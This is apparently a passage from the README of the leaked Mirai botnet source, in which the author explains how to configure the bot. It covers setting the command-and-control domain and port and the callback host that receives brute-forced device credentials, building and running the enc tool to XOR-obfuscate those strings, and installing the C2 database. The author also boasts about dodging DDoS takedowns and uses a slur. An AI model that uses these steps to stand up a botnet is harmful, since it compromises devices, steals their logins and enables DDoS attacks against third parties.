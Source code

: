 Bot has several configuration options that are obfuscated in `table.c/table.h`.
In [`./mirai/bot/table.h`](mirai/bot/table.h) you can find most descriptions for
configuration options.  However, in [`./mirai/bot/table.c`](mirai/bot/table.c)
there are a few options you *need* to change to get working.

* `TABLE_CNC_DOMAIN` - Domain name of CNC to connect to - DDoS avoidance very
  fun with mirai, people try to hit my CNC but I update it faster than they can
  find new IPs, lol. Retards :)
* `TABLE_CNC_PORT` - Port to connect to, its set to 23 already
* `TABLE_SCAN_CB_DOMAIN` - When finding bruted results, this domain it is
  reported to
* `TABLE_SCAN_CB_PORT` - Port to connect to for bruted results, it is set to
  `48101` already.

In [`./mirai/tools`](mirai/tools) you will find something called enc.c - You
must compile this to output things to put in the table.c file

Run this inside mirai directory

    ./build.sh debug telnet

You will get some errors related to cross-compilers not being there if you have
not configured them. This is ok, won't affect compiling the enc tool

Now, in the `./mirai/debug` folder you should see a compiled binary called enc.
For example, to get obfuscated string for domain name for bots to connect to,
use this:

    ./debug/enc string fuck.the.police.com

The output should look like this

    XOR'ing 20 bytes of data...
    \x44\x57\x41\x49\x0C\x56\x4A\x47\x0C\x52\x4D\x4E\x4B\x41\x47\x0C\x41\x4D\x4F\x22

To update the `TABLE_CNC_DOMAIN` value for example, replace  that long hex string
with the one provided by enc tool. Also, you see `XOR'ing 20 bytes of data`.
This value must replace the last argument tas well. So for example, the table.c
line originally looks like this

    add_entry(TABLE_CNC_DOMAIN, "\x41\x4C\x41\x0C\x41\x4A\x43\x4C\x45\x47\x4F\x47\x0C\x41\x4D\x4F\x22", 30); // cnc.changeme.com

Now that we know value from enc tool, we update it like this

    add_entry(TABLE_CNC_DOMAIN, "\x44\x57\x41\x49\x0C\x56\x4A\x47\x0C\x52\x4D\x4E\x4B\x41\x47\x0C\x41\x4D\x4F\x22", 20); // fuck.the.police.com

Some values are strings, some are port (uint16 in network order / big endian).

# Configuring CNC

    apt-get install mysql-server mysql-client

CNC requires database to work. When you install database, go into it and run
following commands: http://pastebin.com/86d0iL9g (ref:
[`db.sql`](scripts/db.sql))
